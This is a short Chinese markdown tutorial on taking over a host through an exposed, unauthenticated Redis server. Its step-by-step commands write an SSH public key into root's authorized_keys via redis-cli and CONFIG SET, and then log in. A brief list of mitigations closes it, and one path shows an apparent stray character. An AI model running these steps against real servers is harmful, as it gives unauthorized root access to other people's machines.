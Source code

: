 # 利用redis入侵主机

## 前言
  假如redis服务对外网开放了，并且没有做安全防护。那么心怀不轨的人就可以通过redis来入侵主机。具体步骤如下：

## 具体步骤
1. 生成密钥对。
```
  ssh-keygen -t rsa
```
2. 连接redis服务器，把公钥添加到redis里面。
```
cat id_rsa.pub | redis-cli -h xxx.xx.xx.xx -p xxxx -x set key
```
3. 设置redis保存文件路径和文件名：
```
config set dir ~/.ssh/g
config set dbfilename authorized_keys
save
```
4. 可以ssh登陆过去了。
```
ssh root@xxx.xx.xx.xx -i id_rsa
```

## 防止方法
1. 不对外网开放
2. 设置连接认证密码
3. 不要用root用户启动redis服务，给redis服务创建redis用户，并用redis用户起redis服务。 